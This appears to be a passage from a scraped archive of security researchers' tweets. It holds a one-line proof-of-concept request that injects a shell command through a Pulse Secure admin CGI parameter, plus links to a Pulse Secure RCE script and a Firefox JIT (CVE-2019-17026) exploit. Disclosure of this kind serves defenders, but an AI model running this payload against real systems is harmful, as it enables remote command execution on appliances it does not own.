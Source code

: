 [Proof Of Concept]
/dana-admin/license/downloadlicenses.cgi?cmd=download&amp;txtVLSAuthCode=whatever -n '($x="ls /",system$x); #' -e /data/runtime/tmp/tt/setcookie.thtml.ttc

https://t.co/XhlYdrrWqB https://t.co/C4mjbngIq0
</blockquote>

* https://github.com/withdk/pulse-gosecure-rce-poc/blob/master/pulse-gosecure-rce.py

<table><tr>
<td><img src="pictures/d5b4a6babe05ff52cdb5b16a6e994d54dd047645189e7bd03c5e31b0869805f4.jpg" alt="d5b4a6babe05ff52cdb5b16a6e994d54dd047645189e7bd03c5e31b0869805f4.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>128</code></td>
<td>Favorites: <code>300</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1300978679518867457 _at 2020-09-02, 02:07:42_**
<blockquote>
CVE-2019-17026 (Firefox JIT bug) 

No sandbox escape included

Proof of Concept
https://t.co/nmV6FS1tJD https://t.co/RCIS4SYHTh
</blockquote>

* https://github.com/maxpl0it/CVE-2019-17026-Exploit/blob/master/calc.html

<table><tr>